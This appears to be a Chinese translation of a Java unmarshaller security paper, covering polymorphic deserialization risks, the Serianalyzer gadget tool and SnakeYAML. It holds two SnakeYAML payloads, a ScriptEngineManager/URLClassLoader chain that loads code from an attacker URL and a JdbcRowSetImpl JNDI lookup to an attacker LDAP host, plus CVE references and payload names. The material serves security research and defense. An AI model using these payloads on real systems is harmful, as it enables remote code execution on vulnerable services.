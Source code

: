 Jackson 是一个通常遵循实际属性的实现例子。然而，他的多态unmarshalling 支持一种操作任意类型的模式。

没有这种类型的例外：
- JAXB 需要所有的类型都已注册
- 需要已定义模式或编译的机制(例如XmlBeans、Jibx、Protobuf)
- GSON 需要一个特点root类型，遵循属性类型，多态机制需要提前注册
- GWT-RPC 提供了类型信息，但自动构建了白名单。

## 2 工具

大多数gadget搜索都是[Serianalyzer](https://github.com/mbechler/serianalyzer/)的一点点增强版完成的。Serianalyzer,起初开发用于Java 反序列化分析，是一个静态字节码分析器，从一组初始方法出发，追踪各类原生方法潜在的可达路径。调整这些起始方法以匹配unmarshalling中可以完成的交互（可能寻找绕过可序列化的类型检查，以及针对Java序列化进行启发式调整），这也可以用于其他机制。

## 3 Marshalling 组件库

这里描述了各式 Marshalling 机制，对比了他们之间的相互影响以及unmarshall执行的各种检查。最基本的差别是他们如何设定对象的值，因此下面将区分使用Bean属性访问的机制和只使用直接字段访问的机制。

### 3.1 基于Bean 属性的 marshallers

基于Bean 属性的 marshallers 或多或少都遵守类型的API来阻止一个攻击者任意修改对象的状态，并且能重建的对象图比基于字段的marshallers重建少。但是，它们调用了setter方法，导致在unmarshalling时可能触发更多的代码。

#### 3.1.1 SnakeYAML

SnakeYAML 只允许公有构造函数和公有属性。它不需要相应的getter方法。它有一个允许通过攻击者提供的数据调用任意构造函数的特性。这使得攻击 ScriptEngine（甚至也可能影响更多，这是一个令人难以置信的攻击面）成为可能。

```java
!! javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader  [[
        !!java.net.URL ["http :// attacker /"]
    ]]
]
```

通过 JdbcRowset 仅用属性访问也能实现攻击

```java
!!com.sun.rowset.JdbcRowSetImpl
    dataSourceName: ldap :// attacker/obj
    autoCommit: true
```

SnakeYAML 指定一个特定实际使用的root类型，然而并不检查嵌套的类型。

- References
  > cve-2016-9606  Resteasy

  > CVE-2017-3159  Apache Camel

  > CVE-2016-8744  Apache Brooklyn

- 可用的payloads

  - ScriptEngine (4.16)
  - JdbcRowset (4.2)
  - C3P0RefDS (4.8)
  - C3P0WrapDS (4.9)
  - SpringPropFac (4.10)
  - JNDIConfig (4.7)
